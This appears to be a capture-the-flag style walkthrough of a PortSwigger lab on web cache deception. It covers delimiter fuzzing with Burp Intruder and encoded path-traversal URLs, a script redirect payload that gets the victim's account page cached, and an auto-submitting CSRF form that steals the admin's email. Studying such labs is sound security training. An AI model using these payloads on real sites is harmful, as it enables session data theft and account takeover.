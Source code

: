 ```yaml
---
title: Exploiting exact-match cache rules for web cache deception
date: 2024-12-21
categories: [Blogs]
tags: AppSec Web WebCache
img_path: /assets/BlogImgs/web-cache-deception.png
image:
  path: /assets/BlogImgs/web-cache-deception.png
---
```


<img src="assets/web-cache-deception/image1.png" alt="Error loading image">


### Step1:

Login with the given credentials

<img src="assets/web-cache-deception/image2.png" alt="Error loading image">

Send the request to the repeater

<img src="assets/web-cache-deception/image3.png" alt="Error loading image">

Here, we can see that there is no cache support for this request because there is no header in the response, such as:

```
Cache-Control: max-age=30
Age: 0
X-Cache: miss
```

Now we append `/<anyword>` to the URL and send the request. In the response, we can see a '404 Not Found' status.

<img src="assets/web-cache-deception/image4.png" alt="Error loading image">

First, we identify the supported delimiter. Send the request to the Intruder, select the ` / `, and test a list of delimiters provided in the lab's list.

<img src="assets/web-cache-deception/image5.png" alt="Error loading image">

**Payload setting**

Add a position for the payload, and in the payload settings, paste the copied payload list.

<img src="assets/web-cache-deception/image6.png" alt="Error loading image">

At the bottom of the page, we have the payload encoding option. Turn this off.

<img src="assets/web-cache-deception/image7.png" alt="Error loading image">

In the response, we can see that only two delimiters are supported.

<img src="assets/web-cache-deception/image8.png" alt="Error loading image">

### Step2:

Try these delimiters

<img src="assets/web-cache-deception/image9.png" alt="Error loading image">

We can see that we have an OK response, but no cache header is supported. The same is observed in the result given below with the second delimiter ` ? `

<img src="assets/web-cache-deception/image10.png" alt="Error loading image">

### Step3:

Now, we add any directory followed by a dot segment and the encoded ` / `, then append the my-account endpoint, like

<img src="assets/web-cache-deception/image11.png" alt="Error loading image">

Let’s send another file and check if it returns a cached response, like `/resources/labheader/js/labHeader.js`

<img src="assets/web-cache-deception/image12.png" alt="Error loading image">

The response has no cache-supported header.

<img src="assets/web-cache-deception/image13.png" alt="Error loading image">

### Step4:



Now, we find the file being cached, such as `index.html` or `.htaccess.` For this, we use a list of common files.

Send the `/hello/..%2f.%2f..%2f..%2fmy-account` request to Intruder.

Select the `my-account` and try the list of common files.

<img src="assets/web-cache-deception/image14.png" alt="Error loading image">


**Payload setting**

<img src="assets/web-cache-deception/image15.png" alt="Error loading image">

We can see in the response, when we sort by length, that two files support caching: `robots.txt` and `favicon.ico`

<img src="assets/web-cache-deception/image16.png" alt="Error loading image">

We can clearly see in the `robots.txt` and `favicon.ico` responses that the files are not found, but they are cached.

<img src="assets/web-cache-deception/image17.png" alt="Error loading image">

The same is true for `favicon.ico`

<img src="assets/web-cache-deception/image18.png" alt="Error loading image">

### Step5:

Now, to get a 200 OK response and ensure the response is cached, we try the delimiter `?`

<img src="assets/web-cache-deception/image19.png" alt="Error loading image">

Here, we have a 200 OK response, but there is no cache header in the response.

Lets try with `;`

<img src="assets/web-cache-deception/image20.png" alt="Error loading image">

Here, we can see a 200 OK response when we use the `;` delimiter. The same response occurs when we use `robots.txt` instead of `favicon.ico` .

### Step6:

Now, to find the cache buster, we append `?<anything>` to `favicon.ico`.

<img src="assets/web-cache-deception/image21.png" alt="Error loading image">

Here, I noticed that when I change the cache busting, it does not affect the response, meaning there is no change in the cache hit or miss

But when I try it with `robots.txt`, it works.

First request

<img src="assets/web-cache-deception/image22.png" alt="Error loading image">

Again send the request

<img src="assets/web-cache-deception/image23.png" alt="Error loading image">

### Step7:

Simply copy the URL and add it in the script, but we encode `..`. So, `/../../../../` becomes:
`%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f`.

Before encoding, the URL is:

```
https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account;..%2f.%2f..%2f..%2frobots.txt?cacheBusting5.
```
After encoding, the URL becomes:

```
https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account;%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2frobots.txt?cacheBusting5.
```

The final script looks like this:

```
<script>document.location="https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account;%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2frobots.txt?cacheBusting5"</script>

```

Now, we store it on the exploit server and deliver it to the victim.

<img src="assets/web-cache-deception/image24.png" alt="Error loading image">

When I paste the URL into a new window, it redirects to the login page.

<img src="assets/web-cache-deception/image25.png" alt="Error loading image">

Now, we need to change the email for the admin. To do this, we first obtain the CSRF token for the admin user.

Next, we change the cache busting again, store it, and deliver it to the victim. After delivering it to the victim, send the following request in Repeater within 20 to 30 seconds.

We can see that the CSRF token for the administrator account is present

<img src="assets/web-cache-deception/image26.png" alt="Error loading image">

### Step8:

Now, we need to change the email. First, we change our email and send the `/my-account/change-email` request to Repeater

Replace the CSRF token with the one from the previous response and change the email.

<img src="assets/web-cache-deception/image27.png" alt="Error loading image">

Now, **right-click -> Extension -> CSRF PoC Generator** and generate a proof of concept for this request.

<img src="assets/web-cache-deception/image28.png" alt="Error loading image">

If you don’t have the professional version, generate the PoC using an online PoC generator, or you can simply copy the code below and replace the CSRF value with yours.

```
<html>
<! - CSRF PoC - generated by Burp Suite Professional →
<body>
<form action="https://0a1b00ea0389511483df198400d80085.web-security-academy.net/my-account/change-email" method="POST">
<input type="hidden" name="email" value="i&#95;am&#95;admin&#64;admin&#46;com" />
<input type="hidden" name="csrf" value="cXVxuNNK9lQniEV9MHoBXnH5WN7byec5" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
```
Copy this and send it to the victim through the exploit server.

<img src="assets/web-cache-deception/image29.png" alt="Error loading image">

Click ‘Store’ and deliver it to the victim. The lab is now solved.

For more writeups on PortSwigger labs, visit this GitHub repository I have created for dedicated PortSwigger labs: [PortSwigger Lab Solution](https://github.com/mun1bxD/Web-Exploitation) .